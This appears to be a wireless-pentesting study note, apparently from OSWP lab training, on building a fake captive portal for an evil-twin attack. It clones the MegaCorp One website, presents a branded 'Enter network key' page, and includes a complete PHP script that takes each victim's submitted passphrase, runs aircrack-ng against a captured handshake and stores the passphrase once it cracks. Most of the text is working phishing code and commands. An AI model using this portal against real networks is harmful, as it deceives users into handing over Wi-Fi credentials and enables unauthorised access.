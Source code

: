   In this scenario, our target does not have an existing captive portal, so our next step will be to create one that appears to be authentic. In order to avoid suspicion, we'll want to use branding and images that will be recognizable and familiar to users. We'll also use PHP scripts to save credentials that a user enters, and then we'll redirect the user to a success or failure page.

To install Apache and PHP, we'll use apt as follows:

```bash
kali@kali:~$ sudo apt install apache2 libapache2-mod-php
...
```

Since we are targeting an encrypted network instead of an existing captive portal, we will be creating the portal from scratch, using their website `(https://www.megacorpone.com/)` as a base for the design.

![[Pasted image 20250416155246.png]]

Let's download the index page, along with all its resources, using wget. We will be using recursive mode with -r, and two levels deep, with -l2, as the background picture is referenced in a CSS, which is itself referenced in the index page.

```bash
wget -r -l2 https://www.megacorpone.com
```

Although wget downloads files in the current directory, in this case, it created a directory named after the domain we are recursively downloading resources from, www.megacorpone.com.

Let's create our captive portal login page, called `index.php` in `/var/www/html/portal`. Our design will be relatively simple. We will use the top line with the name of the company, followed by the background image, and a password field. We'll also include a "Connect" button.

```html
<!DOCTYPE html>
<html lang="en">

	<head>
		<link href="assets/css/style.css" rel="stylesheet">
		<title>MegaCorp One - Nanotechnology Is the Future</title>
	</head>
	<body style="background-color:#000000;">
		<div class="navbar navbar-default navbar-fixed-top" role="navigation">
			<div class="container">
				<div class="navbar-header">
					<a class="navbar-brand" style="font-family: 'Raleway', sans-serif;font-weight: 900;" href="index.php">MegaCorp One</a>
				</div>
			</div>
		</div>

		<div id="headerwrap" class="old-bd">
			<div class="row centered">
				<div class="col-lg-8 col-lg-offset-2">
					<?php
						if (isset($_GET["success"])) {
							echo '<h3>Login successful</h3>';
							echo '<h3>You may close this page</h3>';
						} else {
							if (isset($_GET["failure"])) {
								echo '<h3>Invalid network key, try again</h3><br/><br/>';
							}
					?>
				<h3>Enter network key</h3><br/><br/>
				<form action="login_check.php" method="post">
					<input type="password" id="passphrase" name="passphrase"><br/><br/>
					<input type="submit" value="Connect"/>
				</form>
				<?php
						}
				?>
				</div>

				<div class="col-lg-4 col-lg-offset-4 himg ">
					<i class="fa fa-cog" aria-hidden="true"></i>
				</div>
			</div>
		</div>

	</body>
</html>
```


In addition to being a login page, the PHP code will also indicate if the credentials are successful or incorrect. The latter will add a message above the credentials text box to indicate failure. The former will hide the text box.

We will also need to copy two directories, `assets` and `old-site`, into `/var/www/html/portal` since they contain the `CSS` and the background image.

```bash
┌──(root💀gobots)-[16Apr2025 20:00:52]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# cp -r assets /var/www/html/portal/
                                                       
┌──(root💀gobots)-[16Apr2025 20:00:59]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# cp -r old-site /var/www/html/portal/ 
```

The login page form goes to `login_check.php`, which we will use to verify the credentials by cracking the handshake.

```php
<?php
# Path of the handshake PCAP
$handshake_path = '/home/kali/discovery-01.cap';
# ESSID
$essid = 'MegaCorp One Lab';
# Path where a successful passphrase will be written
# Apache2's user must have write permissions
# For anything under /tmp, it's actually under a subdirectory
#  in /tmp due to Systemd PrivateTmp feature:
#  /tmp/systemd-private-$(uuid)-${service_name}-${hash}/$success_path
# See https://www.freedesktop.org/software/systemd/man/systemd.exec.html
$success_path = '/tmp/passphrase.txt';
# Passphrase entered by the user
$passphrase = $_POST['passphrase'];

# Make sure passphrase exists and
# is within passphrase lenght limits (8-63 chars)
if (!isset($_POST['passphrase']) || strlen($passphrase) < 8 || strlen($passphrase) > 63) {
  header('Location: index.php?failure');
  die();
}

# Check if the correct passphrase has been found already ...
$correct_pass = file_get_contents($success_path);
if ($correct_pass !== FALSE) {

  # .. and if it matches the current one,
  # then redirect the client accordingly
  if ($correct_pass == $passphrase) {
    header('Location: index.php?success');
  } else {
    header('Location: index.php?failure');
  }
  die();
}

# Add passphrase to wordlist ...
$wordlist_path = tempnam('/tmp', 'wordlist');
$wordlist_file = fopen($wordlist_path, "w");
fwrite($wordlist_file, $passphrase);
fclose($wordlist_file);

# ... then crack the PCAP with it to see if it matches
# If ESSID contains single quotes, they need escaping
exec("aircrack-ng -e '". str_replace('\'', '\\\'', $essid) ."'" .
" -w " . $wordlist_path . " " . $handshake_path, $output, $retval);

$key_found = FALSE;
# If the exit value is 0, aircrack-ng successfully ran
# We'll now have to inspect output and search for
# "KEY FOUND" to confirm the passphrase was correct
if ($retval == 0) {
	foreach($output as $line) {
		if (strpos($line, "KEY FOUND") !== FALSE) {
			$key_found = TRUE;
			break;
		}
	}
}

if ($key_found) {

  # Save the passphrase and redirect the user to the success page
  @rename($wordlist_path, $success_path);

  header('Location: index.php?success');
} else {
  # Delete temporary file and redirect user back to login page
  @unlink($wordlist_file);

  header('Location: index.php?failure');
}
?>
```

Although our login check script may look intimidating at first, it is rather simple. 

First it checks whether the supplied password has already been stored as a valid password in `/tmp/passphrase.txt=`. If that is the case, we simply return a `SUCCESS` value to the login page. If the password is not found in that file, we write it to a wordlist file, which is then passed to the `aircrack-ng` command along with our previously captured handshake file. We then run this command and parse its output to determine if the provided password is valid or not.

As an alternative to using an existing handshake, we can also use a second wireless card with _wpa_supplicant_ to connect to the real AP. We would then use this to verify the credentials instead of cracking the handshake. If both target SSID and our rogue SSID match, we need to blacklist our BSSID in wpa_supplicant using "bssid_blacklist" so it doesn't try to connect back to us.